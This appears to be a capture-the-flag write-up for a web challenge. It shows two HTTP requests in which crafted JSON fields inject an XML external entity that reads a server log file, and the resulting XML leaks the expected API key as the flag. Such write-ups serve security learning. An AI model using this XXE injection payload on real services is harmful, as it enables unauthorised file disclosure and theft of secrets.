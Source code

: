 # Objective

# Solution

First send a request with a bad apiKey to generate log file. Then read log file with second request.

The issue is how they are replacing strings in the xml file. You want to create an entity that is able to read a local file (the log file).

```
### Flag really is H858FDSKL49FK09K4590KFK2390KCFVC12

### First send the first request
### Second send the second request

POST https://chal35-g7sg4j.vercel.app/getCRMUsers HTTP/1.1
Content-Type: application/json

{
    "apiKey": "wrong"
}

###

POST https://chal35-g7sg4j.vercel.app/createCard HTTP/1.1
Content-Type: application/json

{
  "role": "role\"> --> <ENTITY!EDOCTYPENDOCTYPETDOCTYPEIDOCTYPETDOCTYPEY role SENTITYYENTITYSENTITYTENTITYEENTITYM \"/tmp/last_req.log",
  "firstName": "fn",
  "lastName": "ln\"> <ENTITY!--"
}

###
```

The second request will generate XML that looks like this: (note the contents of the log file are injected)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
<!ENTITY firstName "fn">
<!ENTITY lastName "ln">
<!--"><!ENTITY role "role">--><!ENTITY role SYSTEM "/tmp/last_req.log">
]>
<userInfo>
<fullRef>fn ln, Expected API Key: H858FDSKL49FK09K4590KFK2390KCFVC12 | Received API Key: wrong</fullRef>
<firstName>fn</firstName>
<lastName>ln</lastName>
</userInfo>
```

GitHub isn't displaying the commenting correctly, but focus on the line below.. The second request we send is crafted in such a way that we comment out the 'role' entity only to overwrite it with our own injected entity..

```xml
<!--"><!ENTITY role "role">--><!ENTITY role SYSTEM "/tmp/last_req.log">
```
